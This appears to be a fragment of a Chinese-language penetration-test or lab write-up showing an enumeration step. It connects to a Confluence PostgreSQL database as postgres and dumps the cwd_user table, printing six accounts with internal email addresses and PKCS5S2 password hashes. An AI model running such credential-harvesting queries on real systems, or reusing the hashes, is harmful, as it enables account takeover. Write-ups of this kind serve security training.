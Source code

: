 繼續 enumeration\
在 [confluence database](https://jira.atlassian.com/browse/CONFSERVER-41321) 查詢 cwd_user table，這會包含所有 username 和 password hash
```
postgres=# \c confluence
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "confluence" as user "postgres".

confluence=# select * from cwd_user;

   id    |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
---------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
  458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC
 1212418 | trouble        | trouble         | T      | 2022-08-18 10:31:48.422 | 2022-08-18 10:31:48.422 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 164eb9b5-b6ef-4c0f-be76-95d19987d36f |       327681 | {PKCS5S2}A+U22DLqNsq28a34BzbiNxzEvqJ+vBFdiouyQg/KXkjK0Yd9jdfFavbhcfZG1rHE
 1212419 | happiness      | happiness       | T      | 2022-08-18 10:33:49.058 | 2022-08-18 10:33:49.058 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | b842163d-6ff5-4858-bf54-92a8f5b28251 |       327681 | {PKCS5S2}R7/ABMLgNl/FZr7vvUlCPfeCup9dpg5rplddR6NJq8cZ8Nqq+YAQaHEauk/HTP49
 1212417 | database_admin | database_admin  | T      | 2022-08-18 10:24:34.429 | 2022-08-18 10:24:34.429 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 34901af8-b2af-4c98-ad1d-f1e7ed1e52de |       327681 | {PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0
 1212420 | hr_admin       | hr_admin        | T      | 2022-08-18 18:39:04.59  | 2022-08-18 18:39:04.59  | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 2f3cc06a-7b08-467e-9891-aaaaeffe56ea |       327681 | {PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV
 1441793 | rdp_admin      | rdp_admin       | T      | 2022-08-20 20:46:03.325 | 2022-08-20 20:46:03.325 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | e9a9e0f5-42a2-433a-91c1-73c5f4cc42e3 |       327681 | {PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34
(6 rows)

(END)
```
